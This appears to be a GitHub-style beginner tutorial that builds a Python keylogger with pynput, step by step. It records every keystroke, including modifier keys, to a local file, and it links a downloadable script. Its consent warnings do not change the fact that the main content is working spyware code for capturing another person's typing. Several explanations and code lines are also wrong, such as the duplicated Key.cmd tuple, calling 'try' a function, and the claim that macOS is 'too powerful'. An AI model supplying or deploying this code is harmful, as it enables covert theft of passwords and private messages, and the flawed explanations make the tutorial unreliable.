 # Keylogger Tutorial

In this tutorial, I will show you how to build a Keylogger Program that can save every keystroke a user types into a device using python. If used unethically, this can be used to steal secure data, for which I caution you against doing. This will work on a MacBook but it will not save the data to a file for you to see, since MacOs is too powerful. Try this out on a Windows computer if you have one.

## Pre Requisites
For this code, you will need to install...
- [Py Charm Community](https://www.jetbrains.com/pycharm/download/#section=mac)
- [Python 3](https://www.python.org/downloads/)
- The Pynput Library(enter (pip3 install pynput) in your terminal, if it asks for a permissions problem, run (sudo pip3 install pynput)

## Let's write some code...

First, we will import the Listener and Key function from the part of the pynput library known as keyboard.
```
from pynput.keyboard import Listener, Key
```

Then we will create a function that will write the information that the computer captures to a file so that you can read it after running the code.
```
def write_to_file(key):
```

Now we will make a variable called key_data that we will use to add all of our captured key information. I will explain to you why we have the replace() function in a moment.
```
key_data = str(key).replace("'", "")
```

Now we are just printing the data for us to see in our console while we type anywhere else.
```
print(key_data)
```

Now here, we will have a print function which will use 0 as a placeholder to print the key inside the format() function. We have this so that we can check what someone types on our computer.
```
print('{0} release'.format(key))
```

Now we will create a if statement that will say that if the key pressed was escape.
```
if key == Key.esc:
```

Then we will print that they user entered escape.
```
print('entered escape')
```

Then we will return False. This ends the code, as escape is the key we will be using to show that the user is done typing, so it will end the Keylogger.
```
return False
```

Now we will create a series of is statements to record the special keys tapped.


If shift is pressed(the right or left one).
```
if key in (Key.shift, Key.shift_l, Key.shift_r,):
```

Add Shift + to key_data so that we will know what the typer capitalized.
```
key_data = ' Shift + '
```

If control is pressed(the right or left one).
```
if key in (Key.ctrl, Key.ctrl_l, Key.ctrl_r,):
```

Add Ctrl + to key_data so that we will know what the typer put after control.
```
key_data = ' Ctrl + '
```

If command is pressed(the right or left one).
```
if key in (Key.cmd, Key.cmd, Key.cmd,):
```

Add Command + to key_data so that we will know what the typer put after command.
```
key_data = ' Command + '
```

If space is pressed.
```
if key in (Key.space,):
```

Add Space to key_data.
```
key_data = ' '
```

If enter is pressed.
```
if key in (Key.enter):
```

Add a newline to key_data.
```
key_data = '\n'
```

Now this is a new function we will be using to write the key_data into a file called try. This is basically as it seems, asking the computer to try to do something.
```
try:
```

Now we will open a file called listening.txt as a variable called fout.
```
with open('listening.txt', 'a') as fout:
```

Now we will write the key_data to that file so we can check it later.
```
fout.write(key_data)
```

Now if this listening.txt file is not fount and a FileNotFoundError is given, then...
```
except FileNotFoundError:
```

We will open a new file, substituting the a, which means to open a file as a file to write things to, with a w, which creates a new file if it does not exist.
```
with open('listening.txt', 'w') as fout:
```

Now we will write the key_data to that file so we can check it later.
```
fout.write(key_data)
```

Now we will utilize listener, that we imported in the starting of our code from the pynput library to, on the press of a key, to call the write to file function. We will open this as the variable listener.
```
with Listener(on_press=write_to_file) as listener:
```

We will return all of the keys clicked together by utilizing the join() function.
```
listener.join()
```

And there you have it, a Keylogger built by yourself! Please make sure to use this only with permission from the person you are using it on or it will be very unethical and morally wrong!

If you would like to download this code, click [here](Keylogger/logger.py).
